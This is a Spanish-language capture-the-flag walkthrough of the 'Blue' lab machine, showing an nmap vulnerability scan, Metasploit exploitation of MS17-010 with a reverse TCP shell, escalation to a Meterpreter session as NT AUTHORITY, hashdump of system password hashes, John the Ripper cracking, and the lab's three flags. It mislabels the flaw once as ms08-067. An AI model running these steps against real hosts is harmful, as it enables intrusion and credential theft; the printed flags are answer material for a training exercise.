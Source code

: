 # Blue

## nmap

Primero hacemos un escaneo de los puertos abiertos y vulnerables con `nmap`:

```
nmap -sV --script vuln -v 10.10.223.217
```

![[Pasted image 20250220183330.png]]

## Explotación del exploit

Tenemos al menos 3 puertos abiertos con un número de menos de 1000.

Y estos son los resultados del script:

![[Pasted image 20250220183432.png]]

Nos indica que puede haber una vulnerabilidad, concretamente la de `CVE-2017-0143`. La máquina es vulnerable a `ms08–067`.

Iniciamos la consola de metasploit.

```
msfconsole
```

Buscamos la vulnerabilidad.

```
search ms17-010
```

![[Pasted image 20250220184127.png]]

Seleccionamos el módulo.

```
use 0
```

Mostramos las opciones a configurar para el exploit.

```
options
```

![[Pasted image 20250220184233.png]]

Configuramos la IP del host remoto y la IP local que obtuvimos de la VPN para conectarnos a la máquina.

```
set RHOST IP_Maquina_Vulnerable
set LHOST IP_Maquina_Kali
```

![[Pasted image 20250220184424.png]]

Cargamos el payload que vamos a utilizar.

```
set payload windows/x64/shell/reverse_tcp
```

E iniciamos el exploit:

```
run
```

![[Pasted image 20250220184633.png]]

Tardará unos minutos en completarse.

![[Pasted image 20250221114033.png]]

Le damos a `Ctrl + Z` para dejar el proceso en el background.
## Escala de privilegios

Ahora vamos a convertir la shell a meterpreter shell.

```
use post/multi/manage/shell_to_meterpreter
```

![[Pasted image 20250220185116.png]]

Con el comando `SESSIONS`vemos las sesiones activas de fondo.

![[Pasted image 20250221113308.png]]

Asignamos la sesión:

```
set session 1
set LHOST tun0
```

Y ejecutamos el exploit:

```
run
```

Seleccionamos la sesión que nos ha abierto nueva el exploit.

```
sessions 2
```

![[Pasted image 20250221114739.png]]

Hemos escalado hasta NT authority en el sistema.

![[Pasted image 20250221114824.png]]

## Crackeando las contraseñas
Ponemos en el background la sesión con `Ctrl + Z` y listamos los procesos.

```
ps
```

![[Pasted image 20250221115020.png]]

Migramos el proceso de `spoolsv.exe`.

```
migrate 1292
```

![[Pasted image 20250221115735.png]]

Dumpeamos las contraseñas del sistema.

```
hashdump
```

![[Pasted image 20250221115838.png]]

Copiamos estos resultados a un fichero llamado `hash.txt` y usamos john the ripper para crackear las contraseñas.

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20250221120308.png]]

## Flags

Obtenemos la primera flag de la siguiente manera:

![[Pasted image 20250221120526.png]]

```
flag{access_the_machine}
```

La segunda flag se encuentra aquí:

![[Pasted image 20250221120740.png]]

```
flag{sam_database_elevated_access}
```

Finalmente, la localización de la última flag es en documentos:

![[Pasted image 20250221120846.png]]

```
flag{admin_documents_can_be_valuable}
```



































